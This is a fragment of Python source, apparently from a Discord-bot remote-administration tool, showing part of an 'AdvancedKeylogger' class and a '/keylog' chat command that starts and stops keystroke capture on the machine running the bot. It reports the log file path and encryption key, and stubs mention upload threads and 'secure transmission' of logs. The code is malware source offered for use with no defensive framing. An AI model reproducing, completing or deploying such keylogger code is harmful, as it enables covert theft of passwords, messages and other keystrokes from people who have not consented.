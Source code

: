 ```python
                    # - Log compression
                    # - Secure transmission
                    # - Cloud storage integration
                    pass
                threading.Event().wait(60)  # Process every 60 seconds
            except Exception:
                pass

    def stop(self):
        """Stop keylogger and clean up"""
        if not self.is_running:
            return False

        self.is_running = False
        for hook_id in self.hook_ids:
            keyboard.unhook(hook_id)
        self.hook_ids = []
        
        if self.upload_thread and self.upload_thread.is_alive():
            self.upload_thread.join(timeout=5)
        
        return True

    def get_status(self):
        """Get current keylogger status"""
        return {
            "is_running": self.is_running,
            "log_file": self.log_file,
            "log_size": os.path.getsize(self.log_file) if os.path.exists(self.log_file) else 0,
            "encryption_key": base64.urlsafe_b64encode(self.encryption_key).decode()
        }

# ✅ /keylog command with advanced features
@bot.hybrid_command(name="keylog", description="Toggle advanced keylogger")
async def keylog(ctx, action: str):
    if not await bot.authorize(ctx):
        return

    keylogger = AdvancedKeylogger()
    
    try:
        if action.lower() == "start":
            if keylogger.start():
                status = keylogger.get_status()
                await ctx.send(
                    f"✅ Advanced keylogger started\n"
                    f"• Log file: `{status['log_file']}`\n"
                    f"• Encryption: Enabled\n"
                    f"• Event tracking: Press/Release"
                )
            else:
                await ctx.send("⚠️ Keylogger is already running")
                
        elif action.lower() == "stop":
            if keylogger.stop():
                await ctx.send(
                    "✅ Advanced keylogger stopped\n"
                    "• All hooks removed\n"
                    "• Log processing terminated"
                )
            else:
                await ctx.send("⚠️ Keylogger is not running")
                
```